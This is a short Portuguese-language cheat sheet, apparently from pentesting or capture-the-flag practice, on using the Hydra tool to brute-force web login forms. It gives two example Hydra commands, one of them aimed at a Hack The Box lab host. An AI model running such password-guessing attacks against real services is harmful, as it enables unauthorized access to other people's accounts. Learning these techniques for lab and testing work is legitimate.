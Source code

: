 **Ferramenta utilizada para ataque de força-bruta em diversas aplicações**

Validar os campos de login e cadastro, caso retornem respostas diferentes ou não tenham controle de requisições.
Podemos usar o HYDRA para o brute force em serviços ou aplicações:
Aplicações Web: Identificar o nome dos campos e mensagem de erro

hydra -v -l/L -p/P http-post/get-form "/turismo/login.php:login^USER^&senha=^PASS^&login:Incorreto"

hydra -L user.txt -P pass.txt streamio.htb https-post-form "/login.php:&username=^USER^&password=^pass^:F=Login failed"